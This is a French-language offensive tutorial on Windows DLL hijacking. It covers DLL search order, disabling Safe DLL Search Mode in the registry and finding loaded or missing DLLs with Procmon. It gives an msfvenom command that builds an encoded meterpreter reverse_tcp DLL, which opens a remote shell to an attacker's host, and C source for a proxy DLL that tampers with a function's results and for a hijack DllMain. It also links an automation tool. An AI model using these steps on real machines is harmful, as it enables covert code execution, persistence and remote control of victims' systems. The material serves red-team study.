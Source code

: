 
Lorsqu'il tente de localiser une DLL, Windows utilise l'ordre de recherche suivant par défaut (**Safe DLL Search Mode**).

1. Le répertoire à partir duquel l'application a été chargée.
2. Le répertoire système `C:\Windows\System32` pour les systèmes 64 bits.
3. Le répertoire système 16 bits `C:\Windows\System` (non supporté sur les systèmes 64 bits)
4. Le répertoire Windows.
5. Le répertoire courant.
6. Tous les répertoires répertoriés dans la variable d'environnement PATH.

Si le **Safe DLL Search Mode** est désactivé, alors l'ordre devient le suivant.

1. Le répertoire à partir duquel l'application est chargée.
2. **Le répertoire courant.**
3. Le répertoire système.
4. Le répertoire système 16 bits.
5. Le répertoire Windows
6. Les répertoires listés dans la variable d'environnement PATH.


# Désactiver le Safe DLL Search Mode

1. Appuyez sur `Touche Windows + R` pour ouvrir la boîte de dialogue Exécuter.
2. Tapez `Regedit` et appuyez sur `Entrée`. Cela ouvrira l'Éditeur du Registre.
3. Naviguez jusqu'à `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager`.
4. Dans le panneau de droite, recherchez la valeur `SafeDllSearchMode`. Si elle n'existe pas, cliquez avec le bouton droit de la souris sur l'espace vide du dossier ou cliquez avec le bouton droit de la souris sur le dossier `Session Manager`, sélectionnez `New` (Nouveau) et ensuite `DWORD (32-bit) Value` (Valeur DWORD (32-bit)). Nommez cette nouvelle valeur `SafeDllSearchMode`.
5. Double-cliquez sur `SafeDllSearchMode`. Dans le champ de données Value, entrez `1` pour activer et `0` pour désactiver Safe DLL Search Mode.
6. Cliquez sur « OK », fermez l'Editeur de Registre et redémarrez le système pour que les changements prennent effet.


# Tools pour identifier les DLL chargées par un programme :

1. Process Explorer : Cet outil, qui fait partie de la suite Sysinternals de Microsoft, fournit des informations détaillées sur les processus en cours d'exécution, y compris les DLL chargées. En sélectionnant un processus et en inspectant ses propriétés, vous pouvez visualiser ses DLL.
2. PE Explorer : Cet explorateur d'exécutable portable (PE) permet d'ouvrir et d'examiner un fichier PE (tel qu'un .exe ou un .dll). Il révèle notamment les DLL à partir desquelles le fichier importe des fonctionnalités.
3. Procmon -> Filter -> Operation is Load Image
4. VirusTotal : Dans les modules chargés



# Créer une DLL malveillante avec MSFVENOM

Staged Windows x64 meterpreter reverse #DLL

```BASH
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -e x86/shikata_ga_nai -i 10 -f dll > charge.dll
```

# Déterminer les fonctions à modifier dans la DLL

1. Ouvrir le programme dans Ghidra et identifier les fonctions importés par la DLL

## Proxying (Hijack)

Nous pouvons utiliser une méthode connue sous le nom de DLL Proxying pour exécuter un Hijack. Nous allons créer une nouvelle bibliothèque qui chargera la fonction à partir de la dll, la modifiera et la renverra au programme.

1. Créer une nouvelle DLL : Nous allons créer une nouvelle DLL qui servira de proxy pour la dll. Cette bibliothèque contiendra le code nécessaire pour charger la fonction  de la dll et effectuer l'altération requise.
2. Chargement de la fonction : Dans la nouvelle DLL, nous chargerons la fonction à partir du fichier DLL d'origine. Cela nous permettra d'accéder à la fonction d'origine.
3. Falsifier la fonction : Une fois la fonction chargée, nous pouvons appliquer les altérations ou modifications souhaitées à son résultat.
4. Retourner la fonction modifiée : Après avoir terminé le processus d'altération, nous renverrons la fonction modifiée de la nouvelle bibliothèque au programme. Ainsi, lorsque le programme appellera la fonction, il exécutera la version modifiée avec les changements prévus.

Exemple avec fonction Add de la DLL library.dll -> Création de tamper.dll

```c
// tamper.c
#include <stdio.h>
#include <Windows.h>

#ifdef _WIN32
#define DLL_EXPORT __declspec(dllexport)
#else
#define DLL_EXPORT
#endif

typedef int (*AddFunc)(int, int);

DLL_EXPORT int Add(int a, int b)
{
    // Load the original library containing the Add function
    HMODULE originalLibrary = LoadLibraryA("library.o.dll");
    if (originalLibrary != NULL)
    {
        // Get the address of the original Add function from the library
        AddFunc originalAdd = (AddFunc)GetProcAddress(originalLibrary, "Add");
        if (originalAdd != NULL)
        {
            printf("============ HIJACKED ============\n");
            // Call the original Add function with the provided arguments
            int result = originalAdd(a, b);
            // Tamper with the result by adding +1
            printf("= Adding 1 to the sum to be evil\n");
            result += 1;
            printf("============ RETURN ============\n");
            // Return the tampered result
            return result;
        }
    }
    // Return -1 if the original library or function cannot be loaded
    return -1;
}
```

Compiler la lib et renommer la lib hijackée en library.o.dll, puis renommer tamper.dll en library.dll


# Invalid DLL

Identifier les DLL non trouvées

Dans procmon -> Filter -> Result is NAME NOT FOUND -> Path ends with .dll 

Créer point d'entrée DLL Main qui est automatiquement appelé par Windows lors du chargement de la DLL.

```c
#include <stdio.h>
#include <Windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        printf("Hijacked... Oops...\n");
    }
    break;
    case DLL_PROCESS_DETACH:
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    }
    return TRUE;
}
```

Compiler et renommer la dll


Si besoin d'intégrer les fonctions de la DLL d'origine
### Automatisation avec DLLLirant

https://github.com/redteamsocietegenerale/DLLirant

